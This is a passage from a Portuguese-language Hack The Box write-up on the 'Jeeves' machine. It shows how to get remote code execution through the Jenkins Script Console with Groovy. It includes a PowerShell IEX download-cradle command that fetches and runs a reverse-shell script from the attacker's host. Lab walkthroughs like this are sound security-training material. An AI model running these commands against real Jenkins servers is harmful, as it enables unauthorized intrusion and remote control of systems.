 Conseguimos uma Shell

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jeeves/J_web7.png)

# Explorando Jenkins Askjeeves (2ºModo - Manage Jenkins)

Agora vamos fazer de outro modo. Na minha opinião melhor, uma vez que é menos ruidoso e escrachado como o anterior

Clicamos em `Manage Jenkins`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jeeves/J_man.png)

Depois em `Script Console`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jeeves/J_man1.png)

Somos levados até essa tela

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jeeves/J_man2.png)

Verificamos que se trata de `Groovy Script`, é bom darmos uma olhada nele pra ver como ele vai aceitar os parâmetros para executar comandos

> https://www.guru99.com/groovy-tutorial.html

Executamos o comando whoami pra ver se realmente temos RCE

```
cmd = "whoami"
println cmd.execute().text
```

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jeeves/J_man3.png)

Clicamos em `Run`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jeeves/J_man4.png)

Temos RCE! Agora é só executar o comando do powershell ali e receber a shell na Kali

```
cmd = "powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.16.117/Invoke-PowerShellTcp.ps1')"
println cmd.execute().text
```

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jeeves/J_man5.png)

Ganhamos a shell!

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-jeeves/J_man6.png)

Bom, tem outras maneiras, mas assim já ta bom. Vamos continuar na escalação de privilégio. Vamos demonstrar de diversas maneiras como se escalar privilégio nessa máquina
